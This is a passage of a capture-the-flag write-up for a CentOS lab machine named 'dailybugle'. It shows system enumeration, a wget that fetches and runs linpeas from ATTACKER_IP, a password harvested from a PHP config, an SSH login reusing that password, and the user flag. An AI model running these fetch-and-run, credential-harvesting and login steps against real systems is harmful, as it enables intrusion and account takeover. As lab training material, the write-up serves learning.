 ```shell-session
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
bash-4.2$ cat /etc/issue
\S
Kernel \r on an \m

bash-4.2$ cat /etc/os-release 
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"
```

Let's try making use of `linpeas` to make things easier:
```shell-session
# Getting the linpeas script from our machine...
bash-4.2$ wget http://ATTACKER_IP:8080/linpeas.sh
bash-4.2$ sh linpeas.sh 
...
╔══════════╣ Searching passwords in config PHP files
        public $password = 'nv5uz9r3ZEDzVjNu';
...
```

Well, we have a password, let's pair that with the username `jjameson` (bruh, just `ls` the `/home` directory -\_-) and try logging into the machine using `ssh`:
```shell-session
$ ssh jjameson@TARGET_IP
jjameson@TARGET_IP's password: ...

[jjameson@dailybugle ~]$ ls -la
total 16
drwx------. 2 jjameson jjameson  99 Dec 15  2019 .
drwxr-xr-x. 3 root     root      22 Dec 14  2019 ..
lrwxrwxrwx  1 jjameson jjameson   9 Dec 14  2019 .bash_history -> /dev/null
-rw-r--r--. 1 jjameson jjameson  18 Aug  8  2019 .bash_logout
-rw-r--r--. 1 jjameson jjameson 193 Aug  8  2019 .bash_profile
-rw-r--r--. 1 jjameson jjameson 231 Aug  8  2019 .bashrc
-rw-rw-r--  1 jjameson jjameson  33 Dec 15  2019 user.txt
[jjameson@dailybugle ~]$ cat user.txt 
27a260fe3cba712cfdedb1c86d80442e
```
